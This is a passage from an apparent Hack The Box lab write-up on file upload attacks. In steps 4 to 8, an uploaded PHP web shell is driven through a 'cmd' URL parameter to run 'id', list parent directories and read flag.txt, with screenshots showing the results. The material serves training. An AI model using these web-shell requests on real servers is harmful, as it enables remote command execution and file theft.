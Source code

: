 <div style="text-align: justify">4. Execute the "id" command as a URL parameter by accessing:</div>
```
http://IP:PORT/uploads/shell.php?cmd=id
```

<div style="text-align: justify">5. The UID and GID of the server are displayed, so the command execution works correctly.</div><br>
![image-center](\assets\images\HTB_File_Upload_Attacks\Q2\4.png)

<div style="text-align: justify">6. Look for a file that can contain the flag with the "ls" command as a URL parameter:</div>
```
http://IP:PORT/uploads/shell.php?cmd=ls ../../../../
```

<div style="text-align: justify">7. The file "flag.txt" is discovered.</div><br>
![image-center](\assets\images\HTB_File_Upload_Attacks\Q2\5.png)

<div style="text-align: justify">8. Read the content of "flag.txt" with the "cat" command as the URL parameter.</div>
```
http://IP:PORT/uploads/shell.php?cmd=cat ../../../../flag.txt
```
![image-center](\assets\images\HTB_File_Upload_Attacks\Q2\6.png)
